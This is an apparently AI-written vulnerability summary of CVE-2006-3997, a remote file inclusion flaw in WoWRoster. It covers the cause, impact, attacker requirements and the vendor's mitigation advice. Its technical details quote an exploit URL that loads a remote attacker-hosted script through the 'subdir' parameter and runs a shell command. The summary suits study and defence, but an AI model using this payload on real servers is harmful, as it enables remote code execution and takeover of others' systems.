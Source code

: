 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3997

**Root Cause of Vulnerability:**
The vulnerability is a remote file inclusion (RFI) issue found in the `lib/phpbb.php` file of WoWRoster. The `hsList.php` file is also vulnerable to Remote File Inclusion.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application allows an attacker to include a remote file, which can be a malicious script, through the `subdir` parameter in `hsList.php` or via the `lib/phpbb.php` file. This is due to insufficient sanitization/validation of user-supplied input that controls which files are included.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP script, an attacker can execute arbitrary code on the server hosting WoWRoster, potentially leading to complete server compromise.
- **Data Access:** The attacker can gain access to sensitive data stored on the server.
- **Server Takeover:** Complete server takeover is possible if the included script contains malicious commands to gain control of the server.

**Attack Vectors:**
- **HTTP GET Requests:** The attacker sends a crafted HTTP GET request to `hsList.php` or through the `lib/phpbb.php` file, specifying the URL of a malicious script in the `subdir` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to make HTTP requests to the server hosting the vulnerable WoWRoster installation.
- **Malicious Script Hosting:** The attacker needs to have a server or hosting space where they have uploaded their malicious PHP script.
- **No Authentication Required:** The vulnerability can be exploited without requiring any authentication.

**Technical Details:**
- The exploit URL for `hsList.php` is given as: `http://www.site.com/[wow_roster_path]/hsList.php?subdir=http://[Shellc0de]]/cmd.txt?&cmd=ls`
- The vulnerable files mentioned are `lib/phpbb.php` and `hsList.php`.
- The exploit works by injecting the URL of a malicious script into the 'subdir' parameter
- The version affected is <= 1.5.x for the `hsList.php` vulnerability

**Additional Notes:**
- The advisory from wowroster.net explicitly instructs users to remove the `lib/phpbb.php` file until a patch was released, and that they should disable phpBB auth if they have it configured. This highlights that the vulnerability is exploitable through this file if phpBB auth is enabled.
- A fix was made available for download in the downloads area as well as via RosterDiag.

The information provided is more detailed than a typical CVE description as it contains specific file names, exploit URLs, and mitigation steps.
